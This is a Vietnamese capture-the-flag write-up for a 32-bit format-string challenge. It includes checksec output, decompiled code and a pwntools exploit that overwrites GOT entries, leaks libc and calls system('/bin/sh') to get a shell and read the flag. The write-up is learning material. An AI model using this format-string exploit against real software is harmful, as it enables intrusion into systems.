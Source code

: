 # PWN WRITE UP
## 1. Pray for flag
<br>
Đầu tiên mình kiểm tra qua file bằng checksec 
```
[*] '/home/iluvinn/pwn/svattt/pray_for_flag/pwn1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Thấy có canary và nx enabled nên hướng làm có thể sẽ sử dụng format string. 
<br>
Chạy thử để xem file hoạt động ra sao
```
## TEST 1 ##
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
I_want_money      <=== USER INPUT
I_want_money      <=== OUTPUT
Bye
## TEST 2 ##
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
%p.%p.%p                      <=== INPUT
0x100.0xf7f125c0.0x80485df    <=== OUTPUT 
Bye
```
Sure kèo có format string rồi :v 
<br>
Tiếp sau đấy mình dùng ida để decompile ra source code
```
void init()
{
  setbuf(stdout, 0);
  setbuf(stdin, 0);
  setbuf(stderr, 0);
}

unsigned int vuln()
{
  char s[256]; // [esp+Ch] [ebp-10Ch] BYREF
  unsigned int v2; // [esp+10Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);        <=== CANARY
  fgets(s, 256, stdin);
  printf(s);                        <=== FORMAT STRING VULN
  return __readgsdword(0x14u) ^ v2;
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(&argc);
  puts("Welcome to the wishing central!");
  puts("Tell me what you want and I will give it to you.");
  puts("What do you want?");
  vuln();
  puts("Bye");
  return 0;
}
``` 

Mình nhận tháy là trong .plt không có hàm system vậy nên ý nghĩ ban đầu cần phải có libc base address, system offset và "/bin/sh" offset sau đó điều khiển luồng chương trình thực thi hàm system và gọi bash.
<br>
Ý tưởng của mình ở đây là overwrite địa chỉ của hàm puts khiến nó gọi lại hàm vuln để tạo 1 vòng loop. Sau đó overwrite hàm printf bằng system. Đến lần loop thứ 3 ta chỉ đơn giản là input chuỗi "/bin/sh"
<br>
Đầu tiên là leak stack để tìm libc base và tạo loop.

```
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
AAAA%p.%p.%p.%p.%p.%p.%p.%p          
AAAA0x100.0xf7f165c0.0x80485df.0xf7f16d80.0x11.0x80487b1.0x41414141.0x252e7025    <=== write to parameter 7 on stack
Bye
----------------#   GDB   #--------------------------
main:
   0x0804868b <+82>:	add    esp,0x10
   0x0804868e <+85>:	call   0x80485d0 <vuln>  <==== overwirte puts@plt = 0x0804868e
   0x08048693 <+90>:	sub    esp,0xc
puts@plt:
   0x08048430 <+0>:	jmp    DWORD PTR ds:0x804a01c
   0x08048436 <+6>:	push   0x20
   0x0804843b <+11>:	jmp    0x80483e0

----------------# Exploit #--------------------------
   put =  0x804a01c
   arr = [0x868e,0x0804]          <==== address of "call   0x80485d0 <vuln>"
   exp = p32(put)+p32(put+2)      <==== put low and high address of "puts" into stack
   
   wr = arr[1]-8
   exp+="%"+str(wr)+"c%8$hn"      <==== write low addr with "%hn"
   wr = arr[0]-arr[1]
   exp+="%"+str(wr)+"c%7$hn"      <==== write high addr with "%hn"
   
   exp+="%2$p"                    <==== leak 1 addr in libc to calculate libc base address
   x = 0xf7edc5c0 - 0xf7d04000    <==== offset from 2nd parameter to libc base address
   
   p.recvuntil('want?\n')
   p.sendline(exp)                <==== send payload
   p.recvuntil('0x')
   libc_base =int("0x"+p.recv(8),16)-x  <=== leak 2nd parameter and calculate libc base address
   print "libc base: "+hex(libc_base)
```
Tiếp sau đó ta overwrite printf thành system
```
------------------------------------------
iluvinn in ~/pwn/svattt/pray_for_flag λ readelf -s libc-2.27.so | grep system
   254: 00129530   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d2e0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d2e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0              <==== system offset
--------------# GDB #---------------------
pr = 0x804a010                  <==== printf@plt addr

sys_offset = 0x003d2e0
sys_got=libc_base+sys_offset
sys_got = str(hex(sys_got))
arr = [int("0x"+sys_got[6:],16),int(sys_got[:6],16)]

exp = p32(pr)+p32(pr+2)         
xx = arr[0]-8
exp+="%"+str(xx)+"c%7$hn"
xx = arr[1]-arr[0]
exp+="%"+str(xx)+"c%8$hn"

p.sendline(exp)
p.sendline("/bin/sh")     <==== send "/bin/sh" string so it will call system("/bin/sh") instead of printf("/bin/sh")
p.interactive()
```
Chạy file exploit hoy
```
iluvinn in ~/pwn/svattt/pray_for_flag λ python exp.py
[+] Opening connection to 134.209.97.157 on port 2222: Done
libc base: 0xf7daa000
[*] Switching to interactive mode
$ id
uid=1000(noob) gid=1000(noob) groups=1000(noob)
$ cat fl*
ptitctf{B3_C4RFUL_WH47_Y0U_W15H_F0R}
$
```
